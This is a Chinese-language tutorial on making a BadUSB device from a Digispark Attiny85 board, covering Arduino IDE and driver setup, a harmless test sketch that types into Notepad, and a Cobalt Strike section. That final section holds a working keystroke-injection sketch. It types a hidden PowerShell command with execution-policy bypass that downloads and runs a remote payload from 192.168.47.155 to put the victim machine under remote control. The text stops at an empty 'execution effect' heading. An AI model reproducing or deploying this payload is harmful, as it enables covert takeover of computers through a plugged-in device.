# 前言

在2014年美国黑帽大会上，安全研究人员JakobLell和独立安全研究人员Karsten Nohl展示了他们称为“BadUSB”的攻击方法，这种攻击方法让USB安全和几乎所有和USB相关的设备(包括具有USB端口的电脑)都陷入相当危险的状态

现在的USB设备很多，比如语音视频设备、摄像头等，因此要求系统提供最大的兼容性，甚至免驱；所以在设计USB标准的时候没有要求每个USB设备像网络设备那样占有一个唯一可识别的MAC地址让系统进行验证，而是允许一个USB设备具有多个输入输出设备的特征。这样就可以通过重写U盘固件，伪装成一个USB键盘，并通过虚拟键盘输入集成到U盘固件中的指令和代码而进行攻击


# 什么是Badusb

BadUSB是利用了USB协议上的漏洞，通过更改USB的内部固件，在正常的USB接口接入后，模拟外置鼠标、键盘的功能，以此来使目标主机执行已经精心构造好的命令。在此过程中不会引起杀毒软件、防火墙的一丝怀疑。而且因为是在固件级别的应用，U盘格式化根本无法阻止其内部代码的执行


# 准备步骤

## 1.设备选择

制作badusb的几种常见载体有：Arduino Leonardo、Phison、Teensy、Attiny85、PS2303（芯片）、RUBBER DUCKY等。

从专业程度和易用性来讲RUBBER DUCKY最优, 本篇文章选择基于Attiny85的设备, 淘宝上价格在12~20左右, 性价比相对来说比较高


## 2.Arduino IDE的安装

Arduino开发者工具Arduino IDE的下载地址: https://www.arduino.cc/en/software, 选择下载Windows ZIP file文件即可

首次打开Arduino IDE, 会自动联网下载软件包并安装

	

<br>

## 3.驱动安装

开发板驱动程序下载地址: https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

下载完后解压文件, 然后运行`DPinst64.exe`和`Install Drivers.exe`

	

<br>

## 4.配置Digispark环境

### 方法一

若你的外网连接速度够快, 那么可直接点击首选项, 然后在其他开发板管理器地址输入`http://digistump.co/package_digistump_index.json`



<br>

### 方法二	

由于开发板管理器的下载模块是通过网站进行下载的, 若访问github的网速不够快就会报错, 但我们自行搭建本地服务器, 将json文件和其他压缩文件一起放到本地服务器上, 此处我选择用phpstudy搭建服务器, 首先启动phpstudy

	

<br>

开启外网代理, 访问`https://raw.githubusercontent.com/ArminJo/DigistumpArduino/master/package_digistump_index.json`, 复制json文件内容至1.json中




下载压缩包: https://github.com/ArminJo/DigistumpArduino, 解压后将`digistump-avr-1.7.5.zip`和`tools/micronucleus-cli-2.6-x86_64-mingw32.zip`复制到本地服务器中, 也把1.json复制到本地服务器上

<br>	

修改1.json文件内容, 将url字段的值修改为对应的本地服务器文件地址	

	

	

<br>		

在首选项处的其他开发管理器地址填写成: `http://127.0.0.1:81/1.json`

	

<br>

## 5.安装Digispark开发板

点击`工具->开发板->开发板管理器`, 然后在左边的侧栏找到`Digistump`进行安装

	

	

<br>

选择对应的开发板型号，配置完成




<br>

# 烧录基本流程

## 1.验证代码

这段代码包含了一个名为 setup() 的函数和一个名为 loop() 的函数。

setup() 函数中包含了一些指令，它们会在程序运行时首先被执行。

```c++
#include "DigiKeyboard.h"

void setup() {
DigiKeyboard.sendKeyStroke(0); //发送一个按键,用于清空当前的输入

DigiKeyboard.delay(3000);   //延迟三秒钟
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  //发送一个按键,用于打开运行对话框
DigiKeyboard.delay(1000);
DigiKeyboard.println("notepad"); //向运行对话框输入notepad打开记事本
DigiKeyboard.sendKeyStroke(KEY_ENTER);  //发送一个回车键
DigiKeyboard.delay(4000);
DigiKeyboard.println("Hellow");  //向打开的记事本窗口输入"Hello"
}

void loop() {

}
```

<br>

点击右上角的勾号对代码进行验证


<br>

## 2.上传代码

点击箭头上传代码, 随后在命令行界面会显示"Please plug in the device(will time out in 60 seconds)", 意思是在60秒内插入我们的badusb设备

	



<br>

插入badusb后开始烧录

		

<br>

## 3.验证效果

插入badusb后会自动打开一个记事本, 然后在记事本上输入Hellow

	

<br>

# CobaltStrike远控上线

## Ardunio代码

这段代码包含了一些头文件的引用和宏定义，接下来是两个函数：setup()和loop()。

```c++
#include "DigiKeyboard.h"
#define KEY_ESC     41
#define KEY_BACKSPACE 42
#define KEY_TAB     43
#define KEY_PRT_SCR 70
#define KEY_DELETE  76
 
void setup() {
 
DigiKeyboard.delay(5000); //延迟5秒
DigiKeyboard.sendKeyStroke(0);  ////发送一个按键,用于清空当前的输入
DigiKeyboard.delay(3000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //发送一个按键,用于打开运行对话框
DigiKeyboard.delay(1000);
DigiKeyboard.print(F("powershell -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://192.168.47.155:80/a');"));  //向运行对话框输入PowerShell代码远程执行CS上线指令
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER);  //发送一个回车键
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER); 
 
}
void loop() {
}
```

<br>

## 执行效果

